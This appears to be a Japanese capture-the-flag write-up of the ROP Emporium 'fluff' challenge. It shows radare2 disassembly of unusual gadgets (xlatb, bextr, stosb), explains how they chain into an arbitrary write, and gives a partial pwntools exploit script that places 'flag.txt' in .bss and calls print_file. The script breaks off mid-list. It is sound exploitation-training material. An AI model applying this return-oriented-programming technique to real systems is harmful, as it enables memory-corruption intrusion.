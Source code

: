 `questionableGadgets`という名前のシンボルがあるので中身を見ると見慣れない命令がいくつかある。

```
[0x00400628]> pd
            ;-- questionableGadgets:
            0x00400628      d7             xlatb
            0x00400629      c3             ret
            0x0040062a      5a             pop rdx
            0x0040062b      59             pop rcx
            0x0040062c      4881c1f23e00.  add rcx, 0x3ef2
            0x00400633      c4e2e8f7d9     bextr rbx, rcx, rdx
            0x00400638      c3             ret
            0x00400639      aa             stosb byte [rdi], al
            0x0040063a      c3             ret
            0x0040063b      0f1f440000     nop dword [rax + rax]
```

命令を調べると


1. `xlatb` ... `ebx + al`のアドレスにある値を`al`に書き込む
2. `bextr rbx, rcx, rdx` ... `rdx`で指定した長さとインデックス値を利用して`rcx`から連続するビットを抜き出す。結果を`rbx`に書き込む(
3. `stosb byte [rdi], al` ... `al`の値を`[rdi]`に書き込む

流れとしては

- 特定のアドレスに書き込む処理は3
- 3を使うには`al`をコントロールする1が必要になる
- 1は更に`ebx`を使っているので2が必要になる

よって2,1,3の順番で処理すれば、書き込み許可がある領域に任意の文字を1バイトずつ書き込むことができるようになる。


```
#!/usr/bin/env python3
from pwn import *

FILE = './fluff'

def exploit():
    # setup
    context.update(arch='amd64', os='linux')
    elf = ELF(FILE)
    p = process(FILE)

    # making a payload
    addr_bss = 0x00601038
    payload  = b''
    payload += b'A'* 0x28
    payload += store_string()
    payload += p64(0x004006a3) # pop rdi; ret;
    payload += p64(addr_bss)
    payload += p64(elf.plt['print_file'])

    # exploit
    p.recvuntil(b'>')
    p.sendline(payload)
    p.interactive()

    return


def store_string():
    # Store 'flag.txt' at .bss section
    chacacter_location = [
        0x004003c7, # f
        0x004003c1, # l
        0x004003d6, # a
```